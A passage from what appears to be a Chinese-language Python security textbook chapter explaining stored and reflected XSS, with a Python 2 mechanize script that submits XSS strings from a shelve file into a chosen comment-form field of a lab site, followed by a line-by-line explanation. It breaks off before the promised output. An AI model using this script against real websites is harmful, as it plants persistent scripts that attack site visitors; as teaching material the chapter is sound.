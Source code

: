 在这种类型的攻击中，攻击者的输入被存储在 Web 服务器中。在一些网站上，您会看到评论字段和消息框，您可以在其中写下您的评论。提交评论后，您的评论会显示在显示页面上。试着想象一种情况，您的评论成为 Web 服务器的 HTML 页面的一部分；这意味着您有能力更改网页。如果没有适当的验证，那么您的恶意代码可以存储在数据库中，当它反映回网页时，会产生不良影响。它被永久存储在数据库服务器中，这就是为什么它被称为持久性。

# 非持久性或反射型 XSS

在这种类型的攻击中，攻击者的输入不会存储在数据库服务器中。响应以错误消息的形式返回。输入是通过 URL 或搜索字段给出的。在本章中，我们将处理存储型 XSS。

现在，让我们看一下 XSS 攻击的代码。代码的逻辑是向网站发送一个利用。在以下代码中，我们将攻击表单的一个字段：

```py
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
  br.form[att] = s['xss'][p]
  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

这段代码是为一个使用名称和评论字段的网站编写的。这小段代码将给你一个关于如何进行 XSS 攻击的想法。有时，当你提交评论时，网站会重定向到显示页面。这就是为什么我们使用`br.set_handle_redirect(False)`语句来进行评论。在代码中，我们将利用代码存储在`mohit.xss` shelve 文件中。`br.forms()`中的表单语句将打印出表单。通过查看表单，你可以选择要攻击的表单字段。设置`flag = 'y'`变量使`while`循环至少执行一次。有趣的是，当我们使用`br.open(url)`语句时，它每次都会打开网站的 URL，因为在我的虚拟网站中，我使用了重定向；这意味着在提交表单后，它会重定向到显示页面，显示旧的评论。`br.form[non] = 'aaaaaaa'`语句只是在输入字段中填充`aaaaaa`字符串。`br.form[att] = s['xss'][p]`语句显示所选字段将被 XSS 攻击字符串填充。`ch = raw_input("Do you continue press y ")`语句要求用户输入下一个攻击。如果用户输入`y`或`Y`，`ch.lower()`将其变为`y`，保持`while`循环活动。

现在，是时候看输出了。下面的截图显示了`192.168.0.5`的首页：
